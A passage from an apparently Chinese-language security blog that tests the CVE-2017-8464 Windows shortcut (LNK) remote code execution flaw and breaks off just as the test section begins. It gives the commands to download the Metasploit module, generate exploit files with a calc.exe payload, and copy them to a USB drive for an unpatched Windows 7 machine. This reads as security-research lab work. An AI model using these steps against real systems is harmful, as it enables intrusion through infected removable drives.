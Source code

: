 作者：ykoster

下载地址：https://github.com/rapid7/metasploit-framework/pull/8767

**2、python利用脚本**

作者：nixawk

下载地址：https://github.com/nixawk/labs/blob/master/CVE-2017-8464/exploit_CVE-2017-8464.py

本文着重测试msf脚本，将exp拷贝至U盘，测试通过U盘触发漏洞的利用方法


### 实际测试：

测试系统： kali 2.0

**1、下载msf脚本**

```
cd /usr/share/metasploit-framework/modules/exploits/windows/fileformat/
wget https://raw.githubusercontent.com/ykoster/metasploit-framework/169e00bf3442447324df064192db62cdc5b5b860/modules/exploits/windows/fileformat/cve_2017_8464_lnk_rce.rb
```

**2、生成exp**

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec
set cmd calc.exe
set EXITFUNC thread
exploit
```

**注：**

msf脚本默认对应系统Windows x64，所以payload也选择64位的exec

参数设置如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-1.png)

执行后，在/root/.msf4/local/生成24个利用文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-2.png)

kali2.0下无法直接访问该文件夹，可通过命令行将`/root/.msf4/local/`下的所有文件复制到`/root/1`下

命令如下：

`cp -r /root/.msf4/local/ /root/1`

复制文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-1/2-3.png)

将以上文件复制到U盘，在另一未打补丁的Win7 x64系统测试


**3、测试**
